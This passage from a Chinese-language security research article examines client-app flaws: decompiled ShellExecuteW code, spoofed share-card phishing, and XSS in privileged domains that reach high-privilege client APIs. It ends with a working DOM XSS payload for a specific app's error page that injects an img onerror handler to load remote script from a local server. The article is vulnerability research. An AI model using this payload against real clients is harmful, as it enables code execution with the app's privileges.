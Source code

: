```
      v2 = *(const WCHAR **)lpParameters;
    v4 = (LPCWSTR *)lpFile[0];
    if ( v10 < 8 )
      v4 = lpFile;
    v7 = (const WCHAR *)v4;
    DesktopWindow = GetDesktopWindow();
    ShellExecuteW(DesktopWindow, L"open", v7, v2, 0, 1);
  }
  return sub_4088B3(lpFile, 1, 0);
}
```  
  
  
**2. 自实现组件安全**  
  
相较于浏览器组件，这部分代码随开发者的水平高低，质量良莠不齐，有些对于框架API的误用会造成组件安全机制的绕过，也是客户端软件中较易出现漏洞的位置。  
  
**2.1. 信息欺骗**  
  
在客户端中看到的消息一定是可靠的吗？  
  
在以IM软件中，存在很多混合消息，如分享链接、聊天记录等卡片消息，会提取其中关键信息进行展示，当用户点击卡片后再跳转到相应URL做完整展示，在这一过程中，很难对所以数据进行校验，因此存在很多消息欺骗的情况，也给了攻击者钓鱼的可能性。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z9MuUwaeeGLELp8BuwSd4eiacibRgLcFegLzF3CzIV6gEFG5VOYwFGCfDrmZU6onlx32IpAhS4fKmPRT9EyibhOlg/640?wx_fmt=png&from=appmsg "")  
  
例如在手机分享的场景下，分享协议仅在手机端抓取了摘要(title,icon等)，即形成卡片在客户端上展示，但无法保证其可靠性。  
  
同样的场景也存在于数据库，发送API的协议过程中，当该位置缺少校验，攻击者可以将该卡片伪造成具有迷惑性的信息，诱骗受害者点击，从而跳转到任意链接，完成钓鱼攻击。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z9MuUwaeeGLELp8BuwSd4eiacibRgLcFeg9vAX4DIlHibFoCYicjibgt6jyYQib96bZiaALm05j0t6u7XKib8P3dyG2UWQ/640?wx_fmt=png&from=appmsg "")  
  
**2.2. 特权域与特权API**  
  
这里就要提到应用的特殊开发模式，特权域与特权API。如之前叙述过的，特权API是一类与应用本身权限相同的客户端函数，在浏览器组件中到处成js对象供资源文件调用，一般仅在实际执行前检查调用来源是否为特权域。  
  
**特权API：**  
- 以Java/C++/nodejs语言实现，用于完成客户端行为。  
  
- 向客户端资源中导出JavaScript对象，用于处理用户交互。  
  
- 受信任程度较高，检查较少，一般仅在实际执行前检查调用来源是否为特权域  
  
**特权域：**  
- 能够调用特权API的域。  
  
- 常见的资源代码可能是位于远端的官方网站或是本地的资源。  
  
- 受信任程度较高，通常使用域进行匹配。  
  
**当攻击者可以向特权域中注入代码时（如XSS），即可调用权限较高的特权API。**  
这一类攻击很像web的XSS漏洞，不同的是本地资源域没有处理它的后端代码，因此一般只有DOM类型的XSS。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z9MuUwaeeGLELp8BuwSd4eiacibRgLcFeg0yDxJSUebZAFwwFz2s0lUPAYXnOjn7GE8Qo6ibM3wON2fVIN6Q8yq7w/640?wx_fmt=png&from=appmsg "")  
  
某款APP中特权域缺陷代码，红圈中数据可以通过攻击者参数传入导致XSS  
  
因此攻击者可以通过如下的payload，利用JavaScript对象属性迭代器的特性，利用高危函数innerHTML触发该漏洞  
```
xxx://yyy/error_page.html?theme=light&errorInfo={"btnContent":"重新加载","enableChatbox302Error":true,"enableDingtalkDoctor":true,"errorCode":"错误码:(-102 ERR_CONNECTION_REFUSED)","message":"页面加载失败","originErrCode":-123,"originErrMsg":"ERR_CONNECTION_REFUSED","originUrl":"http://117.0.0.1:9999/index.html","pageTitle":"页面出错","tipMessage":"x","certErrorData":{"<img src=x onerror='a=document.createElement(`script`);a.src=`http://127.0.0.1:9999/util.js`;document.body.append(a)'>":"1"}}
```  
  